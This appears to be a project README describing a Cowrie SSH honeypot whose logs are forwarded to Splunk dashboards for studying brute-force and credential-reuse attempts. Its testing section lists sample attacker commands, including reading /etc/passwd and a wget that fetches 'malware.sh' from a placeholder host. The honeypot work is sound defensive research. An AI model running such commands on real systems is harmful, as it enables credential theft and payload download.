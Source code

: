 SSH Honeypot with Splunk Integration

## Objective
The goal of this project was to simulate a **vulnerable SSH environment** in order to monitor and analyze unauthorized access attempts.  
By deploying a **Cowrie SSH honeypot**, I was able to capture attacker behavior, collect brute-force attempts, and study credential reuse patterns in real time using **Splunk dashboards**.

---

## Environment Setup

### 1. Platform
- Deployed on a Linux VM (Ubuntu/Debian)
- SSH configured to run on the default port **22** for realism

### 2. Honeypot Tool
- Installed **Cowrie**, a medium-interaction SSH honeypot designed to log brute-force attacks and attacker commands  
- Simulated an SSH service with fake file systems and command responses

### 3. Logging & Monitoring
- Cowrie captured session data, usernames, passwords, and attacker commands  
- Integrated logs with **Splunk** via HTTP Event Collector for centralized monitoring, searching, and visualization

---

## Data Flow Overview
1. Attacker connects to the honeypot via SSH or Telnet  
2. Cowrie logs all activity and fake command execution  
3. A Python script (`send_to_splunk.py`) tails Cowrie’s logs and forwards data to Splunk’s HTTP Event Collector  
4. Splunk indexes the events and displays real-time dashboards

---

## How to Test the Honeypot

### SSH Test
```bash
ssh root@<Honeypot_Public_IP> -p 2222
```

## Try Fake Commands
ls
cat /etc/passwd
wget http://example.com/malware.sh

### Telnet Test
telnet <Honeypot_Public_IP> 2223

### Check Logs Directly
cd ~/cowrie/var/log/cowrie/
tail -f cowrie.log
tail -f jsonlog.json

## Data Captured
1. Brute Force Attempts
2. Attacker Commands
3. Credential Reuse

## Screenshots
<img width="2048" height="1062" alt="image" src="https://github.com/user-attachments/assets/0d8e14a4-6536-4f43-8279-40f3d1cdb292" />



